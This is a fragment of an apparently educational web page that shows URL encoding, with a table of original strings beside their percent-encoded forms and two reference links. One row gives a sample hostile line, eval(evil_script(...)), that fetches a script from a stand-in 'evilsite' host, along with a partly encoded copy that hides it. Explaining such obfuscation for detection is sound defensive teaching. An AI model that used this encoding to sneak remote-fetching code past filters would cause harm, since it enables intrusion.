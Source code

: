 <tbody>
<tr class="header">
<th>Original</th>
<th>URL Encoded</th>
</tr>
&#10;<tr class="odd" data-valign="top">
<td>this line has spaces</td>
<td>this%20line%20has%20spaces</td>
</tr>
<tr class="even" data-valign="top">
<td>eval(evil_script(<a href="http://www.evilsite/?evilscript.pl"
class="external free" target="_blank"
rel="nofollow noreferrer noopener">http://www.evilsite/?evilscript.pl</a>"));</td>
<td>%65val%28%65%76il_%73cri%70t
<p>%28%68tt%70%3A//%77%77%77. %65%76il%73ite/%3F%65%76il%73</p>
cript.%70l%22%29%29%3B</td>
</tr>
</tbody>
</table>

**Resources**

1.  <a href="http://www.linkedresources.com/tools/unescaper_v0.2b1.html"
    class="external text" target="_blank"
    rel="nofollow noreferrer noopener">Text Unescape Utility</a>
2.  <a href="https://www.w3schools.com/tags/ref_urlencode.asp"
    class="external text" target="_blank"
    rel="nofollow noreferrer noopener">HTML URL-encoding Reference</a>
